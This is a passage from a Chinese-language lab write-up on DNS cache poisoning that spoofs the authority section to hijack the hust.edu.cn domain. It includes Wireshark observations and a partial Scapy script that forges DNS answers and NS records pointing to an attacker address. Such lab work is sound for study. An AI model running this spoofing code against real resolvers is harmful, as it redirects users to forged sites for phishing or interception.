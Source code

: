 ![1.4.19.被定向到伪造的网站](https://raw.githubusercontent.com/BIIIANG/pic/main/202205011435451.png)

- 以上攻击过程中使用`Wireshark`获得的数据包见`1.4.7-使用Scapy进行DNS缓存中毒攻击.pcapng`，以下为`scapy`发送的伪造`DNS`响应：

![1.4.20.伪造数据包](https://raw.githubusercontent.com/BIIIANG/pic/main/202205011435041.png)

## 1.5 `DNS`缓存中毒：针对授权区域部分

### 1.5.1 攻击原理

在上一个任务中，我们的`DNS`缓存中毒攻击仅影响一个主机名，即`www.hust.edu.cn`。 如果用户试图获取另一个主机名的`IP`地址，例如`mail.hust.edu.cn`，我们需要再次发起攻击。 如果我们发起一次可能影响整个`hust.edu.cn`域的攻击，效率会更高。我们的想法是使用`DNS`回复中的授权区域部分。当我们欺骗回复时，除了欺骗答案（在`Answer`部分），我们还在授权区域部分添加以下内容。当此条目由本地`DNS`服务器缓存时，`ns1.hust.edu.cn`和`ns2.hust.edu.cn`将用作名称服务器，以便将来查询`hust.edu.cn`域中的任何主机名。由于`ns1.hust.edu.cn`和`ns2.hust.edu.cn`是由攻击者控制的计算机，因此它可以为任何查询提供伪造答案。

```
;; AUTHORITY SECTION: 
hust.edu.cn.		11700	IN NS	ns1.hust.edu.cn.
					11700	IN NS	ns2.hust.edu.cn.
```

此任务的目的就是进行这样的攻击。你需要证明你可以获得本地`DNS`服务器缓存的上述条目。缓存中毒后，在`hust.edu.cn`域中的任何主机名上运行`dig`命令，并使用`Wireshark`观察`DNS`查询的位置。

### 1.5.2 使用之前的攻击程序

- 事实上，在`1.4.3 使用scapy进行DNS缓存中毒攻击`中，就已经对授权区域部分做出了欺骗，并且也对附加区域做出了欺骗。在缓存中毒攻击成功后，在客户机使用`dig mail.hust.edu.cn`进行查询，使用`Wireshark`获得的数据包见`1.5.1-测试之前的欺骗结果.pcapng`，可以发现即使对授权区域和附加区域都做出了欺骗（上图，数据包`8`），但`DNS`服务器仍然需要查询权威域名服务器`ns1.hust.edu.cn`和`ns2.hust.edu.cn`的`IP`，而不是使用附加区域的`IP`（下图，数据包`39、40`）：

![1.5.1.回复的伪造报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202205011948403.png)

![1.5.2.仍然要询问](https://raw.githubusercontent.com/BIIIANG/pic/main/202205011949524.png)

### 1.5.3 改进后的攻击

- 根据使用之前的攻击程序遇到的问题，仅仅在`DNS`响应的授权部分加入伪造的域名服务器并且在附加部分加入对应`IP`是不够的，若查询该域中的其他域名，仍然会重新询问域名服务器对应的`IP`，在附加部分的`IP`是没有生效的，因此需要对后续询问域名服务器的`IP`的`DNS`请求继续伪造响应，在响应的`Answer`部分填入伪造的域名服务器的`IP`，即攻击者的域名服务器的`IP`，才能将在指定域中的`DNS`请求全部定向到攻击者的域名服务器。因此对上述程序进行修改，得到程序：
  - 注：其中域名服务器`ns1.hust.edu.cn`对应的`IP`修改成了`172.18.0.1`，以便于后续的继续攻击；`ns2.hust.edu.cn`对应的`IP`不变，由于是一个不存在的`IP`，因而不会返回结果。

```python
#!/usr/bin/python3

from scapy.all import *

def spoof_dns(pkt):
    # Only filter the A query
    if (DNS not in pkt or pkt[DNS].qd.qtype != 1):
    	return

    # Swap the source and destination IP address and port number
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    if ('www.hust.edu.cn' in pkt[DNS].qd.qname.decode('utf-8')):
        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', 
        	ttl=11803, rdata='172.18.0.1')

        # The Authority Section
        NSsec1 = DNSRR(rrname='hust.edu.cn', type='NS', 
        	ttl=11803, rdata='ns1.hust.edu.cn')
        NSsec2 = DNSRR(rrname='hust.edu.cn', type='NS', 
```